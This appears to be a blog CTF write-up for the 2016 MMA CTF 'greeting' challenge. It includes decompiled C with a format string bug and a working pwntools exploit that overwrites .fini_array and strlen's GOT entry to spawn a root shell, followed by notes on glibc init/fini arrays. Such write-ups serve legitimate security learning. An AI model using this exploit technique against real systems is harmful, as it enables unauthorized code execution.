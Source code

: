 ```yaml
---
title: 2016 MMA CTF greeting
date: 2016-11-12 05:57:11
tags:
- ctf
- format string vlun
categories:
- ctf_practice
---
```


Recently, I was busy with the exams, so I didn't write blogs. And in rest time of this semester, it's a busy time for me beacuse of exams and curriculum design. But bloging must be continued!

## Challenge

Here is the [challenge](https://github.com/ctfs/write-ups-2016/tree/master/mma-ctf-2nd-2016/pwn/greeting-150):
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2
  int v4; // edx@4
  int v5; // [sp+1Ch] [bp-84h]@2
  int v6; // [sp+5Ch] [bp-44h]@1
  int v7; // [sp+9Ch] [bp-4h]@1

  v7 = *MK_FP(__GS__, 20);
  printf("Please tell me your name... ");
  if ( getnline((char *)&v6, 64) )      //read 64 chs from stdin.
  {
    sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
    result = printf((const char *)&v5);
  }
  else
  {
    result = puts("Don't ignore me ;( ");
  }
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}
```
The vuln is obvious: there is a format string vuln in line 14. And the program has provided us system's address. But how to exploit? There's no function call after printf(really?), even if we can overwrite the strlen's got address with system's plt address, but the problem is how to provide the argment of '/bin/sh'? Before I didn't notice the section .fini_array of elf, however it's the point for this vuln. I will give a detailed description about it below.

## Solution

So the solution is to overwrite one of the .fini_array's address with main's address to execute the main function again. And we can send '/bin/sh' to stack as the argment of system function. Then when executing strlen(s), system('/bin/sh') will be executed.

Here is the exp:
```python
from pwn import *

debug = 1
if debug:
    p = process('./greeting')
    context.log_level = 'debug'
else:
    p = remote('127.0.0.1', 10000)

main = 0x080485ED
system_plt = 0x08048490
fini_array = 0x08049934
strlen_got = 0x8049a54
fini_got = 0x08049934

p.recvuntil('Please tell me your name... ')

payload = "qq"                     #20
payload += p32(fini_got + 2)   #4
payload += p32(strlen_got + 2) #4
payload += p32(strlen_got)   #4
payload += p32(fini_got)     #4
payload += "%" + str(2016) + "c"       #0x804
payload += "%" + str(12) + "$hn"
payload += "%" + str(13) + "$hn"
payload += "%" + str(31884) + "c"      #0x8490
payload += "%" + str(14) + "$hn"
payload += "%" + str(349) + "c"        #0x85ed
payload += "%" + str(15) + "$hn"

raw_input("go?")
p.sendline(payload)
p.recvuntil('Please tell me your name... ')
p.sendline('/bin/sh')
p.interactive()
```
And we can get shell:
```shell
[*] Switching to interactive mode
$ id
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Received 0x27 bytes:
    'uid=0(root) gid=0(root) groups=0(root)\n'
uid=0(root) gid=0(root) groups=0(root)
$  
```

## Conlusion

To find how .fini_array(& .init_array) works, I look up some docs and finally I do understand the procedure of a program. That's a lot help for me.
We all know some code will be executed before main function runs to initial the environment. And today I figure it out.

### .init && .preinit_array && .init_array

The three sections will be executed before main().
The section .init was declared as _init_proc(or _init). The runtime linker executes functions whose addresses are contained in the .preinit_array and .init_array sections. These functions are executed in the same order in which their addresses appear in the array. 
And according to the glibc source, the excuted order is belows:
.preinit_array-->_init-->.init_array
```c
void
 __libc_csu_init (int argc, char **argv, char **envp)
 {
   /* For dynamically linked executables the preinit array is executed by
      the dynamic linker (before initializing any shared object).  */
 
 #ifndef LIBC_NONSHARED
   /* For static executables, preinit happens right before init.  */
   {
     const size_t size = __preinit_array_end - __preinit_array_start;
     size_t i;
     for (i = 0; i < size; i++)
       (*__preinit_array_start [i]) (argc, argv, envp);
   }
 #endif
 
   _init ();
 
   const size_t size = __init_array_end - __init_array_start;
   for (size_t i = 0; i < size; i++)
       (*__init_array_start [i]) (argc, argv, envp);
 }
```

### .fini && .fini_array

It's almost the same for those two sections. But the differece is that these functions are executed in the reverse order in which their addresses appear in the .fini_array. 
```c
 void
 __libc_csu_fini (void)
 {
 #ifndef LIBC_NONSHARED
   size_t i = __fini_array_end - __fini_array_start;
   while (i-- > 0)
     (*__fini_array_start [i]) ();
 
   _fini ();
 #endif
 }
```

And one thing I must note is that glibc replaces __DTORS_LIST(.dtors) && __CTORS_LIST(.ctors) with .init_array && .fini_array. So don't be strange when you see somesome exploiting using __dtors_list && __ctors_list.

### Links
[Initialization and Termination Routines](http://docs.oracle.com/cd/E19683-01/817-1983/6mhm6r4es/index.html)
[The source](http://osxr.org:8080/glibc/source/csu/elf-init.c?v=glibc-2.16.0#0105)
[Replace .ctors/.dtors with .init_array/.fini_array on targets supporting them](https://gcc.gnu.org/bugzilla/show_bug.cgi?id=46770)
